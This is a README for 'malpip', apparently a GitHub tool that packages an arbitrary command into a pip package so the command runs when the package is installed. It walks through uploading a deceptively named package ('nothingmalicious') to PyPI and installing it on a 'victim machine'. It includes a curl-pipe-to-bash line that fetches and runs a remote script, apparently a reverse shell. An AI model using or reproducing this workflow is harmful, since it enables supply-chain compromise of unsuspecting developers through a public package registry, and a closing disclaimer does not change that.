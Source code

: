 
# malpip
Tool that creates a malicious pip package that runs your command during installation.

## Prerequisite
Create an account on https://pypi.org

## Installation
1. Clone repository and set permissions.
```bash
git clone https://github.com/thegoodhackertv/malpip.git
cd malpip
sudo chmod +x malpip.sh
```
2. Install dependencies.
```bash
sudo ./malpip install
```
3. Set the command to be executed.
```bash
echo "curl -s http://localhost/rev.sh | bash" > command.txt
```
4. Create malicious project.
You will be asked for your pypi credentials to upload the project.
```bash
./malpip create nothingmalicious command.txt
```
5. Install the package on the victim machine and your command will be executed.
```bash
pip install nothingmalicious
```

## Useful Resources
- [Youtube video](https://youtu.be/ux32ZHUJbKk) (spanish)
- [Website post](https://thegoodhackertv.com/ciberseguridad/te-pueden-infectar-con-github-y-python/) (spanish)

## Disclaimer
Usage of these scripts for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

## Support
[<img width=300 alt="patreon" src="https://i0.wp.com/thegoodhackertv.com/wp-content/uploads/2020/11/patreon.png">]([https://www.buymeacoffee.com/thegoodhacker](https://www.patreon.com/thegoodhacker))
[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-orange.png">](https://www.buymeacoffee.com/thegoodhacker)
